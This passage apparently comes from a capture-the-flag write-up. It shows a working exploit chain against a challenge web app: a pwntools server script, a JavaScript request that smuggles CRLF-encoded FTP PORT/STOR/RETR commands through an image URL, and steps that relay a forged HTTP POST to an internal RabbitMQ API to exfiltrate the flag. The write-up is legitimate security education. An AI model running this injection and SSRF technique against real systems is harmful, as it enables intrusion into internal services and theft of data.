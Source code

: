 Then, we stand up a remote server which will upload this file to the victim FTP server when it reaches out:

```python
# pwn.py
from pwn import *
from pwnlib.tubes.server import server
import time

b = open('req.txt', mode='rb').read()

while b.endswith(b'\r\n'):
    b = b[:-2]

b = b * 1000

s = server(5012)

print('wait for cxn')
while True:
    c = s.next_connection()
    print('got cxn')
    time.sleep(1)
    c.write(b)
    c.close()
    print('sent')
s.close()
```

We then trigger the exploit chain with a request (substituting your IP/port appropriately):


```js
const inject = '\r\nPORT 1,2,3,4,19,148' +
               '\r\nSTOR my_exp.txt' +
               '\r\nPORT 172,32,56,72,61,56' +
               '\r\nRETR my_exp.txt\r\n';
const encoded = encodeURIComponent(encodeURIComponent(inject));
fetch(`http://contrived.pwni.ng/api/image?url=ftp://ftp:21/${encoded}`);
```

The following events then occur:

1. `server` proxies the http request to `api`
2. `api` connects to `ftp` and, eventually, injects the command `PORT 1,2,3,4,19,148`
3. `ftp` establishes a connection to `1.2.3.4` port `5012` (= 19 * 256 + 148)
4. Our evil server hosted on `1.2.3.4` accepts the connection and pauses 1 second
5. `api` sends the command `STOR my_exp.txt` to `ftp`
6. Our evil server sends the file crafted to look like a POST, which `ftp` stores in `my_exp.txt`.
7. `api` sends the command `PORT 172,32,56,72,61,56` to `ftp`
8. `ftp` establishes a connection to the RabbitMQ HTTP API hosted at `172.32.56.72`, port `15672`.
9. `ftp` sends the contents of `my_exp.txt`. Note in `pwn.py` that we repeat the HTTP POST quite a few times. This ensures that `ftp` does not terminate the TCP connection too quickly, because it's busy sending more data. Closing the connection immediately causes RabbitMQ to ignore the request.
10. RabbitMQ interprets the file contents as HTTP, and publishes our message
11. `email` receives the message, and attaches the flag to an email which Sendgrid then delivers to our inbox.